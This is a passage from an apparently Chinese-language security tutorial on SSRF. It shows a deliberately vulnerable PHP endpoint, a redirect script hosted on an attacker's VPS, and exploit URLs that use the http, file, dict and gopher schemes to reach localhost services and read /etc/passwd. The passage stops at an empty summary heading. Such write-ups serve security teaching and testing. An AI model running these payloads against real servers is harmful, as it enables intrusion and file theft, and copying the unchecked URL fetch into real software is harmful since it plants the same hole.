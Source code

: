 **服务端代码：**

```php
//ssrf.php
<?php                                                                                                                                                
function curl($url){                                                         
    $ch = curl_init();                                                       
    curl_setopt($ch, CURLOPT_URL, $url);                                     
    curl_setopt($ch, CURLOPT_HEADER, 0);                                     
    curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);//根据服务器返回 HTTP 头中的 "Location: " 重定向 
    curl_exec($ch);                                                     
    curl_close($ch);                                                         
}                                                                            
$url = $_GET['url'];                                                         
print $url;                                                                  
curl($url);
```

**攻击者的vps：**

```php
//302.php
<?php  
$schema = $_GET['schema'];
$ip     = $_GET['ip'];
$port   = $_GET['port'];
$query  = $_GET['query'];

echo "\n";
echo $schema . "://".$ip."/".$query;

if(empty($port)){  
    header("Location: $schema://$ip/$query");
} else {
    header("Location: $schema://$ip:$port/$query");
}
```

**利用：**

```python
#http/https
http://目标网站HOST/ssrf.php?url=http://vps的IP/302.php?schema=http&ip=127.0.0.1&port=80
#file
http://目标网站HOST/ssrf.php?url=http://vps的IP/302.php?schema=file&ip=127.0.0.1&query=/etc/passwd
#dict
http://目标网站HOST/ssrf.php?url=http://vps的IP/302.php?schema=dict&ip=127.0.0.1&port=29362&query=info
#gopher
http://目标网站HOST/ssrf.php?url=http://vps的IP/302.php?schema=gopher&ip=127.0.0.1&port=2333&query=66666
```

# 总结
